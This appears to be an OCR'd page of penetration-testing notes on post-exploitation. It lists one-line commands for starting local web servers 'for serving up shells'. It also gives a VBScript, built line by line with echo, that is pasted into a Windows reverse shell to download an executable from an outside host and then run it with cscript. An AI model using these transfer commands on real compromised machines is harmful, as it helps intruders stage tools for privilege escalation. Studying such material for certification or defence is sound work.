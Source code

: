 *   Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.

*   Simple Local Web Servers

    *   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    *   Run a basic Python3 http server, great for serving up shells etc  
        python3 -m http.server

    *   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    *   Run a basic PHP http server  
        php -S $ip:80

*   Creating a wget VB Script on Windows:  
    [_https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt_](http://web.archive.org/web/20171113221652/https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

*   Windows file transfer script that can be pasted to the command line. File transfers to a Windows machine can be tricky without a Meterpreter shell. The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

    The file can be run using the following syntax:

    `C:\temp\cscript.exe webdl.vbs`
